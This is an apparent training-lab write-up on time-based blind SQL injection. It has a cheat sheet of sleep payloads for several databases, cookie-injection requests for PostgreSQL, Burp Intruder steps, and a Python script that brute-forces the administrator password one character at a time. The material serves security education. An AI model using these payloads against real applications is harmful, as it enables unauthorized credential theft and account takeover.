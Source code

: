 # Blind SQL Injection with time delays and information retrieval

# Review

In some of the preceding examples, we've seen how you can exploit the way applications fail to properly handle database errors. But what if the application catches these errors and handles them gracefully? Triggering a database error when the injected SQL query is executed no longer causes any difference in the application's response, so the preceding technique of inducing conditional errors will not work.

In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering time delays conditionally, depending on an injected condition. Because SQL queries are generally processed synchronously by the application, delaying the execution of a SQL query will also delay the HTTP response. This allows us to infer the truth of the injected condition based on the time taken before the HTTP response is received.

The techniques for triggering a time delay are highly specific to the type of database being used. On Microsoft SQL Server, input like the following can be used to test a condition and trigger a delay depending on whether the expression is true:

```
'; IF (1=2) WAITFOR DELAY '0:0:10'--
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```

The first of these inputs will not trigger a delay, because the condition `1=2` is false. The second input will trigger a delay of 10 seconds, because the condition `1=1` is true.

Using this technique, we can retrieve data in the way already described, by systematically testing one character at a time:

```
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```

### Cheat sheet

You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

| DATABASE TYPE | QUERIES |
| --- | --- |
| Oracle | dbms_pipe.receive_message(('a'),10) |
| Microsoft | WAITFOR DELAY '0:0:10' |
| PostgreSQL | SELECT pg_sleep(10) |
| MySQL | SELECT SLEEP(10) |

You can test a single boolean condition and trigger a time delay if the condition is true.

| DATABASE TYPE | QUERIES |
| --- | --- |
| Oracle | SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual |
| Microsoft | IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10' |
| PostgreSQL | SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END |
| MySQL | SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a') |

# Lab Instruction

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

# Lab Walkthrough

### Verify database type

Modify the request as:

```
Cookie: TrackingId=none'||pg_sleep(10)--; session=ajlei4zlhDtl54fg149spJ4wwsAEZ0iu
```

Verify that the ****************response**************** is delayed 10 seconds → The target database is **********************PostgreSQL**********************

Let’s concatenate the query with more complex condition

```
Cookie: TrackingId=none'%3BSELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--;
```

The `%3B` is decoded by `URL` as a semi-colon `;` to avoid separating the query

Verify that the application takes 10 second for the responding → The query is a valid syntax

### Verify username is `administrator`

Modify the query as:

```
Cookie: TrackingId=none'%3BSELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
```

Verify it is true

### Find password length

```
Cookie: TrackingId=none'%3BSELECT CASE WHEN (username='administrator' AND LENGTH(password)>1) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
```

Increase the number of password length `1` until the application responses immediately

This step could be done manually or using BurpSuite ********Intruder********:

Send the current request to tab ****************Intruder**************** by pressing `Ctrl + I`. Then add the `§` between the `1` :

```
Cookie: TrackingId=none'%3BSELECT CASE WHEN (username='administrator' AND LENGTH(password)>§1§) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
```

Switch to `Resource pool` tab → Select `Create new resource pool` → Enter the name for the pool and **********check********** the box of `Maximum concurrent requests` → Set it value as `1`

![Untitled](Blind%20SQL%20Injection%20with%20time%20delays%20and%20information%20images/Untitled.png)

Click `Start attack` → Click on the `Columns` drop-down menu → Click `Response received` (This will represent the number of milliseconds the application took to respond)

![Untitled](Blind%20SQL%20Injection%20with%20time%20delays%20and%20information%20images/Untitled%201.png)

Once the attack is done → Check out the result and focus on the request which has the `response received` value is smaller than 10000 → At that request’s payload, the application responded immediately → It was a false condition

![Untitled](Blind%20SQL%20Injection%20with%20time%20delays%20and%20information%20images/Untitled%202.png)

The request which has payload `20`  → The password’s length is not smaller than `20` → It is equal to `20` → The password has ****20**** characters long

### Explore the password

Modify the request as:

```
Cookie: TrackingId=none'%3BSELECT CASE WHEN (username='administrator' AND SUBSTRING(password,§1§,1)='§a§') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
```

Choose the attack type to `Cluster Bomb` → Go to ****************Payloads**************** tab → Set the payload set 1 (`§1§`) to a N**umber list** from **1** to ****20**** (as the password length) → Set the payload set **2** (`§a§`) to a **********************Simple list********************** which contains lower-case alphanumeric characters

![Untitled](Blind%20SQL%20Injection%20with%20time%20delays%20and%20information%20images/Untitled%203.png)

![Untitled](Blind%20SQL%20Injection%20with%20time%20delays%20and%20information%20images/Untitled%204.png)

Click ************************Start attack************************ and wait for awhile → Combine all of the **characters in payloads** of the ****************requests**************** that took more than 10000 millisecond for ********************responding******************** 

Use the password to login as `adminsitrator` and solve the lab

Or you can use this [source code](Blind_SQL_Injection_with_Time_delay_and_Conditional.py) to solve this manually by replacing the position of the password characters

```python
import requests

s = requests.Session()

url = "https://0aa7005904e463c481bb4d7c00370004.web-security-academy.net/login" # Change this
# original cookie
cookie = {"TrackingId":""}
# payload
p = "none'%3BSELECT CASE WHEN (username='administrator' AND SUBSTRING(password,1,1)='@') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--"

wordlist = 'qwertyuiopasdfghjklzxcvbnm0987654321'

for char in wordlist:
	new_p = p.replace('@', char)
	cookie['TrackingId'] = new_p
	print(f"Send request with payload {char}")
	res = s.get(url,cookies=cookie)
	if res.elapsed.total_seconds() > 10:
		print(f"[+] Character {char} found!")
		with open('password.txt', 'a') as f:
			f.write(char)
			print("Char has been written")
		break
print("Increase the password position for the next request")
```